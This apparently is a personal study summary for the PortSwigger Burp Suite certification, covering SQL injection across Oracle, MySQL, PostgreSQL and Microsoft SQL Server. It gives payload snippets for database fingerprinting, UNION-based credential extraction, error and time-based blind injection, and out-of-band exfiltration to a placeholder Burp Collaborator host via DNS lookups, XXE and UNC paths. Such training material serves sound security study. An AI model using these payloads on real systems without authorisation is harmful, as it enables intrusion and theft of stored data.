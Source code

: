 ##### PortSwigger BurpSuite Certification Summary
# SQL Injection
### Determine the Database
```
SELECT @@version # fails. Then you know it is not MS SQL or MySQL.
SELECT version() # fails. You know it is not PostGres
SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;# Succeeds! You know it is oracle.
```
Oracle always requires a `FROM` statement with every `SELECT`. To query arbitrary data (such as strings), the `dual` table should be used, e.g.:
```
SELECT 'A','B' FROM dual
```

### String Concatenation
In order to get multiple results in one column.
```
Oracle,PostgreSQL				'foo'||'bar'
Microsoft						'foo'+'bar'
MySQL							'foo' 'bar' or CONCAT('foo','bar')
```

### Comments
```
Oracle  						--comment
Microsoft,PostgreSQL			--comment or /*comment*/
MySQL							#comment or -- comment or /*comment*/				
```

### Substring
Syntax: SUBSTRING(string, start_position, length)
```
Oracle						SUBSTR('foobar',4,2)
All others					SUBSTRING('foobar',4,2)
```

### Length
All databases have a function for string length: `LENGTH()`

### List Tables & Columns
```
Oracle 				 SELECT * FROM all_tables
						SELECT * FROM all_tab_columns WHERE table_name=''

All others		  	SELECT * FROM information_schema.tables
						SELECT * FROM information_schema.columns WHERE table_name = ''
```

### UNION Attack
Determine the number of columns:
```
UNION SELECT NULL
...
UNION SELECT NULL, ..., NULL
```
or
```
ODER BY 1
...
ORDER BY 10
```

Check which columns are formatted as string by replacing any `NULL` with `'A'`.

Use UNION to query information from other tables:
```
UNION SELECT username, password FROM users
```

### Conditional Errors
```
Oracle 		SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft	  SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END
PostgreSQL	 SELECT CASE WHEN (1=1) THEN cast(1/0 as text) ELSE NULL END
MySQL		  SELECT IF(1=1, SELECT table_name FROM information_schema.tables, 'a')
```

MySQL IF() syntax: SELECT IF(condition, case_true, case_false)

### Time Delays
Sleep for 10 seconds.
```
Oracle	  	dbms_pipe.receive_message(('a'),10)
Microsoft  	 WAITFOR DELAY '0:0:10'
PostgreSQL  	SELECT pg_sleep(10)
MySQL		   SELECT sleep(10)
```
In Oracle, a concatenation of strings is required for a conditional time delay:

`SELECT CASE WHEN (1=1) THEN
'A'||dbms_pipe.receive_message(('A'),10) ELSE NULL END FROM dual`

### DNS Lookup
Oracle
```
SELECT extractvalue(xmltype(
	'<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root [ <!ENTITY % remote SYSTEM
	"http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l')
FROM dual
```
PostgreSQL
```
copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
```
MySQL
```
LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```

Prepending any query result to the subdomain, separated with a `.`, allows for sending information to the adversary.

Note:
* The Oracle statement works only on unpatched versions.
* The MySQL statement is only working on Windows machines
